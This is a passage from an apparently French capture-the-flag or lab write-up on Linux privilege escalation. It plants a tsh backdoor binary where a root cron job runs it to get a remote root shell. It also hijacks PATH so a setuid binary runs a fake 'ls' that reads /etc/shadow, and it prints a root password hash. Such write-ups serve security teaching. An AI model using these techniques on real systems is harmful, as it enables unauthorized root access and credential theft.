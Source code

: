 J'ai essayé de rajouter le [shebang](https://fr.wikipedia.org/wiki/Shebang) mais aucune commande n'était exécutée... C'est même étonnant que la commande *touch* fonctionnait jusque là.  

La *crontab* devrait appeler le fichier avec *bash -c*. Je n'ai pas la solution à ce mystère de pourquoi le *touch* fonctionnait, quoiqu'il en soit en recompilant *tshd* pour qu'il utilise un autre port et en plaçant le binaire à */home/user4/Desktop/autoscript.sh* il était bien exécuté.  

```plain
$ ./tsh 192.168.3.2
Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Saturday 06 July 2019, 20:50:18
Memory Usage: 308/985MB (31.27%)
Disk Usage: 6/217GB (3%)

root# id
uid=0(root) gid=0(root) groups=0(root)
```

User5 vers root
---------------

Cet utilisateur dispose lui aussi d'un binaire setuid 0 nommé *script*.  

```plain
$ ./script 
Desktop  Documents  Downloads  ls  Music  Pictures  Public  script  Templates  Videos
```

Ce binaire appelle la commande *ls* mais celle du système, pas le script du même nom dans le dossier utilisateur avec ce contenu :  

```bash
id
whoami
cat /etc/shadow
```

On peut forcer l'utilisation du *ls* sous notre contrôle en changeant le PATH :  

```plain
$ PATH=.:$PATH ./script 
uid=0(root) gid=0(root) groups=0(root),1004(user5)
root
root:$6$mqjgcFoM$X/qNpZR6gXPAxdgDjFpaD1yPIqUF5l5ZDANRTKyvcHQwSqSxX5lA7n22kjEkQhSP6Uq7cPaYfzPSmgATM9cwD1:18050:0:99999:7:::
--- snip ---
```

User5 vers root (via NFS)
-------------------------

La commande *showmount* a échouée, il n'en reste pas moins que *LinEnum* a vu l'existence d'un point de montage :  

```plain
[-] NFS config details:
-rw-r--r-- 1 root root 423 Jun  4 15:02 /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
```